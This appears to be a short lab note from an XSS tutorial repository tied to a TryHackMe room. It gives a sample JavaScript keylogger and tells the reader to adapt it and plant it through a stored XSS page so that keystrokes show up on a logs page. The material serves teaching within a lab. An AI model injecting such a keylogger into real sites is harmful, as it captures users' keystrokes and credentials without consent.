 # Key-Logger with XSS

- **Javascript** can be used for many things, including creating an event to listen for keypresses.
- Sample Key-Logger

  ```
  <script type="text/javascript">
    let l = ""; 
    document.onkeypress = function (e) 
    { 
      l += e.key; 
      console.log(l); 
    }
  </script>
  ```
- [View above script with explanation](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/09%20-%20Key-Logger%20with%20XSS/1.%20Key-Logger.js)

- Now you have this script, can you adapt it and post it into the ***[stored xss](http://IP_ADDRESS_OF_TRYHACKME_LAB/stored)*** page. Then start typing on that page and see it appear on the ***[logs](http://IP_ADDRESS_OF_TRYHACKME_LAB/logs)*** page.

